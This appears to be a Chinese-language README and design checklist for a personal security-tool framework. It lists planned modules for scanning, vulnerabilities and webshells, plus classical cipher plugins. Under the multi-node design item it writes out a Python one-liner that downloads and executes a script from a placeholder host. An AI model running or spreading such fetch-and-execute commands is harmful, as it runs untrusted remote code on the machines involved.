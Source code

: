 # vFuckingTools

vFuckingTools 个人综合框架

## 项目设计 Checklists

- [ ] 多节点设计
    - python -c "exec(__import__('urllib').urlopen('http://xxx.net/xxx').read())" -m
    - 访问API获取执行脚本

- [ ] 模块
    - [ ] 编码
        - [x] ascii
    - [ ] 加密
    - [ ] 扫描
        - [x] ds_store 扫描
        - [ ] 目录扫描
    - 漏洞
    - webshell
    - 其他

## 前后端数据传输及异步处理解决方案

使用`websocket`,服务端处理完成后通过`websocket`发送到客户端

## 插件语言优先级： 

    Python > Javascript > PHP(外部调用文件) > C语言源码（可编译的）

## 0x02 Plugins

### Crypto

    - ascii
    - base64
    - mokbp
    - peigen
    - url
    - zhalan.py
    - atbash
    - caesar
    - morse
    - strhex
    - vigenere
    - ...

### Misc

    - brainfuck

